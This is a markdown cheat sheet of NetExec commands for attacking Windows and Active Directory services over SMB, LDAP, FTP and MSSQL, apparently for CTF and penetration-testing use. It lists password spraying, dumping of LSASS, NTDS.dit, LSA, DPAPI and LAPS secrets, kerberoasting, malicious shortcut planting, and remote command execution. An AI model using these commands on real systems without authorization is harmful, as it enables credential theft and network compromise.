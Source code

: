 ```yaml
---
title: netexec
tags:

- networking
- active-directory
---
```


## netexec

<!-- TOC --><a name="smb"></a>

### smb

#### initial enumeration

```sh
netexec smb target
```

#### null authentication

```sh
netexec smb target -u '' -p ''
```

#### guest authentication

```sh
netexec smb target -u 'guest' -p ''
```

#### list shares

```sh
netexec smb target -u '' -p '' --shares
```

```sh
netexec smb target -u username -p password --shares
```

#### list usernames

```sh
netexec smb target -u '' -p '' --users
```

```sh
netexec smb target -u '' -p '' --rid-brute
```

```sh
netexec smb target -u username -p password --users
```

#### local authentication

```sh
netexec smb target -u username -p password --local-auth
```

#### using kerberos

```sh
netexec smb target -u username -p password -k
```

#### password spray

```sh
netexec smb target -u users.txt -p password --continue-on-success
```

```sh
netexec smb target -u usernames.txt -p passwords.txt --no-bruteforce --continue-on-success
```

```sh
netexec ssh target -u username -p password --continue-on-success
```

#### all in one

```sh
netexec smb target -u username -p password --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol
```

#### spider_plus module

```sh
netexec smb target -u username -p password -M spider_plus
```

```sh
netexec smb target -u username -p password -k --get-file target_file output_file --share sharename
```

#### dump a specific file

```sh
netexec smb target -u username -p password -k --get-file target_file output_file --share sharename
```

#### dump lsa secrets

```sh
netexec smb target -u username -p password --local-auth --lsa
```

#### group policy preferences

```sh
netexec smb target -u username -p password -M gpp_password
```

#### dump laps v1 and v2 password

```sh
netexec smb target -u username -p password --laps
```

#### dump dpapi credentials

```sh
netexec smb target -u username -p password --laps --dpapi
```

#### dump ntds.dit

```sh
netexec smb target -u username -p password --ntds
```

#### webdav - checks whether the webclient service is running on the target

```sh
netexec smb ip -u username -p password -M webdav 
```

#### veeam - extracts credentials from local veeam sql database

```sh
netexec smb target -u username -p password -M veeam
```

#### slinky - creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions

```sh
netexec smb ip -u username -p password -M slinky 
```

#### ntdsutil - dump ntds with ntdsutil

```sh
netexec smb ip -u username -p password -M ntdsutil
```

#### dump lsass

```sh
netexec smb target -u username -p password -M lsassy
```

#### retrieve msol account password

```sh
netexec smb target -u username -p password -M msol
```

<!-- TOC --><a name="ftp"></a>

### ftp

#### list folders and files

```sh
netexec ftp target -u username -p password --ls
```

#### list files inside a folder

```sh
netexec ftp target -u username -p password --ls folder_name
```

#### retrieve a specific file

```sh
netexec ftp target -u username -p password --ls folder_name --get file_name
```

<!-- TOC --><a name="ldap"></a>

### ldap

#### enumerate users using ldap

```sh
netexec ldap target -u '' -p '' --users
```

#### all in one

```sh
netexec ldap target -u username -p password --trusted-for-delegation  --password-not-required --admin-count --users --groups
```

#### kerberoast

```sh
netexec ldap target -u username -p password --kerberoasting kerb.txt
```

#### asreproast

```sh
netexec ldap target -u username -p password --asreproast asrep.txt
```

#### gmsa

```sh
netexec ldap target -u username -p password --gmsa-convert-id id
```

```sh
netexec ldap domain -u username -p password --gmsa-decrypt-lsa gmsa_account
```

#### check the machine account quota

```sh
netexec ldap target -u username -p password -M maq
```

#### adcs enumeration

```sh
netexec ldap target -u username -p password -M adcs
```

<!-- TOC --><a name="bloodhound"></a>

### bloodhound

```sh
netexec ldap target -u username -p password --bloodhound -ns ip --collection All
```

<!-- TOC --><a name="mssql"></a>

### mssql

- authentication

```sh
netexec mssql target -u username -p password
```

#### execute commands using xp_cmdshell

```sh
netexec mssql target -u username -p password -x command_to_execute
```

> -X for powershell and -x for cmd

#### get a file

```sh
netexec mssql target -u username -p password --get-file output_file target_file
```

source: https://github.com/seriotonctf/cme-nxc-cheat-sheet

